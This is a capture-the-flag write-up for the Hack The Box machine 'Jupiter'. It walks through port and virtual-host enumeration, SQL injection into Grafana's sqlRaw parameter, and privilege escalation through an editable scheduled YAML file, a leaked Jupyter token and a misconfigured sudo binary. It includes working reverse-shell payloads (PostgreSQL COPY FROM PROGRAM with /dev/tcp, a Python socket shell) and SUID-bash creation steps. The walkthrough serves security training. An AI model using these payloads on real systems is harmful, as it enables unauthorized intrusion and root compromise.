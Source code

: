 # Jupiter

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Jupiter
- **Difficulty:** Medium
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.216

Discovered open port 22/tcp on 10.10.11.216
Discovered open port 80/tcp on 10.10.11.216
```
</details>

<details>
<summary>nmap</summary>

```
nmap -sC -sV 10.10.11.216

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>vhost</summary>

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://jupiter.htb/

Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
```
</details>

<details>
<summary>dir (<code>jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://jupiter.htb/'

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]
```
</details>

<details>
<summary>dir (<code>kiosk.jupiter.htb</code>)</summary>

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u 'http://kiosk.jupiter.htb/'

/login                (Status: 200) [Size: 34390]
/profile              (Status: 302) [Size: 29] [--> /login]
/signup               (Status: 200) [Size: 34390]
/public               (Status: 302) [Size: 31] [--> /public/]
/admin                (Status: 302) [Size: 24] [--> /]
/plugins              (Status: 302) [Size: 24] [--> /]
/live                 (Status: 302) [Size: 24] [--> /]
/org                  (Status: 302) [Size: 24] [--> /]
/logout               (Status: 302) [Size: 29] [--> /login]
/explore              (Status: 302) [Size: 24] [--> /]
/monitoring           (Status: 200) [Size: 34390]
/verify               (Status: 200) [Size: 34390]
/metrics              (Status: 200) [Size: 100948]
/configuration        (Status: 302) [Size: 24] [--> /]
/connections          (Status: 302) [Size: 24] [--> /]
/styleguide           (Status: 200) [Size: 34390]
/playlists            (Status: 200) [Size: 34390]
/alerting             (Status: 200) [Size: 34390]
```
</details>

## Foothold

### Web → `postgres-user`

#### Searching for Vulnerabilities

- when accessing the Grafana instance at `kiosk.jupiter.htb`, several POST requests are sent to the server (can be intercepted with burpsuite)
- the POST request to `/api/ds/query` contains the parameter `sqlRaw`
- `sqlmap -r request` shows that `sqlRaw` is injectable
    - DBMS appears to be **PostgreSQL > 8.1**
    - unfortunately the `--os-shell` is extremly slow and therefore unusable

#### Exploitation

1. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```
2. We can perform the SQL injection manually by setting the `sqlRaw` parameter to the following value:
    ```
    COPY cmd_exec FROM PROGRAM 'bash -c \"/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1\"';
    ```
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

3. We now have reverse shell access for user `postgres-user`!

## Lateral Movement

### `postgres-user` → `juno` 🚩

#### Searching for Vulnerabilities

- `/etc/passwd` indicates that there are two user accounts with a home directory:
    ```
    juno:x:1000:1000:juno:/home/juno:/bin/bash
    jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
    ```
- `find / -user juno 2>/dev/null` will show that `juno` is the owner of the files in `/dev/shm/`
- `/dev/shm/network-simulation.yml` can be edited and contains commands that are run periodically

#### Exploitation

1. Edit `network-simulation.yml` so that a bash with SUID-bit set for `juno` will get created in `/tmp`:
    ```yaml
    server:
        network_node_id: 0
        processes:
        - path: /usr/bin/cp
        args: /bin/bash /tmp/bash
        start_time: 3s
    # three hosts with hostnames 'client1', 'client2', and 'client3'
    client:
        network_node_id: 0
        quantity: 3
        processes:
        - path: /usr/bin/chmod
        args: u+s /tmp/bash
        start_time: 5s
    ```
2. After a while `/tmp/bash` will get created. We can start a bash as `juno` by running `/tmp/bash -p`. Unfortunately `user.txt` cannot be accessed yet.
3. After adding my SSH public key in `/home/juno/.ssh/authorized_keys`, we can log in as `juno` via SSH and access the user flag! 🚩

### `juno` → `jovian`

#### Searching for Vulnerabilities

- `ss -tlp` shows that there are tcp ports `3000` and `8888` open locally
- By using the SSH port forwarding feature, we can scan these ports using nmap:
    ```
    ssh -L 3000:localhost:3000 juno@10.10.11.216
    ssh -L 8888:localhost:8888 juno@10.10.11.216    
    ```
    - <details>
        <summary>nmap output</summary>
        
        ```
        PORT     STATE SERVICE VERSION
        3000/tcp open  ppp?
        | fingerprint-strings:
        |   GenericLines, Help:
        |     HTTP/1.1 400 Bad Request
        |     Content-Type: text/plain; charset=utf-8
        |     Connection: close
        |     Request
        |   GetRequest:
        |     HTTP/1.0 200 OK
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:48 GMT
        |     <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" content=
        |   HTTPOptions:
        |     HTTP/1.0 404 Not Found
        |     Cache-Control: no-store
        |     Content-Type: text/html; charset=UTF-8
        |     X-Content-Type-Options: nosniff
        |     X-Frame-Options: deny
        |     X-Xss-Protection: 1; mode=block
        |     Date: Thu, 07 Sep 2023 11:30:53 GMT
        |_    <!doctype html><html lang="en"><head><meta charset="utf-8"/><meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1"/><meta name="viewport" content="width=device-width"/><meta name="theme-color" content="#000"/><title>Grafana</title><base href="/"/><link rel="icon" type="image/png" href="public/img/fav32.png"/><link rel="apple-touch-icon" sizes="180x180" href="public/img/apple-touch-icon.png"/><link rel="mask-icon" href="public/img/grafana_mask_icon.svg" color="#F05A28"/><link rel="stylesheet" href="public/build/grafana.dark.922c73a268c5f56fe5fe.css"/><script nonce="">performance.mark('frontend_boot_css_time_seconds');</script><meta name="apple-mobile-web-app-capable" c
        8888/tcp open  http    Tornado httpd 6.2
        | http-title: Jupyter Notebook
        |_Requested resource was /login?next=%2Ftree%3F
        |_http-server-header: TornadoServer/6.2
        | http-robots.txt: 1 disallowed entry
        |_/
        ```
        </details>

    - Port `3000` seems to be the Grafana instance
    - Port `8888` is a Jupyter notebook 

#### Exploitation

1. When opening the Jupyter webinteface under `localhost:8888`, a token must be entered, which can be found in `/opt/solar-flares/logs/jupyter-2023-09-07-15.log`.
    - Token: `ecae914aaaf6c419b40775ad51f07e7d3aece17a93e7104`
2. Start a reverse shell listener using netcat:
    ```
    nc -lvnp 9002
    ```
3. After entering the token, a new Jupyter notebook can be created and the payload for a reverse shell can be executed in a cell:
    ```python
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
    ```
4. We now have reverse shell access for `jovian`.


## Privilege Escalation

### `jovian` → `root` 🏁

#### Searching for Vulnerabilities

- `sudo -l` shows, that we can run `/usr/local/bin/sattrack` binary with sudo
- executing `/usr/local/bin/sattrack` gives an error message stating that a `/tmp/config.json` is required

#### Exploitation

1. A working configuration file can be found under `/usr/local/share/sattrack/config.json`, which can be copied to `/tmp/config.json`.
2. We can modify the configuration file `/tmp/config.json` so that the program outputs the root flag:
    ```json
    "tlesources": [
        "file:///root/root.txt",
    ],
    ```
3. After executing `sudo /usr/local/bin/sattrack`, we can find the root flag in `/tmp/tle/root.txt`! 🏁